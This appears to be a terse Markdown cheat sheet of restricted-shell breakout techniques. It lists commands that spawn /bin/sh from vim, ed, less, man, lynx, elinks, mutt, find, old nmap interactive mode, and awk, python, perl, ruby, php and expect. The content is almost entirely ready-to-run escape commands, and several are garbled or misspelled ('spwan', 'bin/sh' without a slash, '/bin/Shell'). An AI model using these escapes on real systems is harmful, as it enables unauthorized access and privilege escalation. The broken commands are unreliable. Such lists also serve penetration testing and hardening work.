 # shell-escaping

## editors 

### vim 

```
:!/bin/sh
```

```
:set shell=/bin/sh
:shell
```

### ed

```
!'/bin/sh'
```

### ne

```
Load Prefs
```

## Pager


### More/Less

Open a file that is larger then your terminal. 

Run `!'sh'`

### man

Run `!'sh'`

This to works sinse man uses more/less.

### pinfo

press `!` followed by the command you want to run.

### Console Browsers

pagers can also be used a editors in console browsers.

#### links

`FILE > OS Shell`

#### lynx

open webpage.  
press `o`  
configure vim as editor

or

```
lynx --editor=/usr/bin/vim www.google.com
```

#### elinks

```
export EDITOR=/usr/bin/vim
```

open a site with a textbox. 
Press `ENTER` and then `F4`. 
elinks will use vim.

### mutt

open mutt  
press `!`  
enter `/bin/Shell`

### find

when ever it finds udp,xml it will cd to root and run ls.

`find . -name udp.xml -exec awk 'BEGIN {system("cd /root; ls")}' \;`

### nmap

before version r17131

```
nmap --interactive
!sh
```

## Programming Techniques

### awk

`awk 'BEGIN {system("/bin/sh")}'`

### expect

```
Expect
spwan sh
sh
```

### python

`python -c 'import os; os.system("/bin/sh");'`

### ruby

```
irb
exec 'bin/sh'
```

### perl

`perl -e 'system("sh -i")'`  
`perl -e 'exec("sh -i")'`

### php

```
php -a
exec("sh -i");
```
